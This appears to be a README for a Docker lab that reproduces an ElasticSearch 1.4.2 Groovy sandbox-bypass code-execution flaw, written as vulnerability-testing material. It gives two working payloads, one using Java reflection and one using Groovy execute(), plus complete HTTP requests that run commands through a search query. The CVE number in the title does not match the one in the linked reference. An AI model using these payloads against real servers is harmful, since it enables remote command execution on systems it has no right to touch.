

# ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞（CVE-2015-3120）测试环境

jre版本：openjdk:8-jre

elasticsearch版本：v1.4.2

## 原理

参考文章：

- http://cb.drops.wiki/drops/papers-5107.html
- http://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/
- https://github.com/XiphosResearch/exploits
- http://cb.drops.wiki/drops/papers-5142.html

CVE-2014-3120后，ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞：1.是一个沙盒绕过； 2.是一个Goovy代码执行漏洞。

## Groovy语言“沙盒”

ElasticSearch支持使用“在沙盒中的”Groovy语言作为动态脚本，但显然官方的工作并没有做好。lupin和tang3分别提出了两种执行命令的方法：

1. 既然对执行Java代码有沙盒，lupin的方法是想办法绕过沙盒，比如使用Java反射
2. Groovy原本也是一门语言，于是tang3另辟蹊径，使用Groovy语言支持的方法，来直接执行命令，无需使用Java语言

所以，根据这两种执行漏洞的思路，我们可以获得两个不同的POC。

Java沙盒绕过法：

```
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()
```

Goovy直接执行命令法：

```
def command='id';def res=command.execute().text;res
```


## 漏洞测试

编译及运行测试环境

```
docker-compose build
docker-compose up -d
```

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```

然后发送包含payload的数据包，执行任意命令：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```

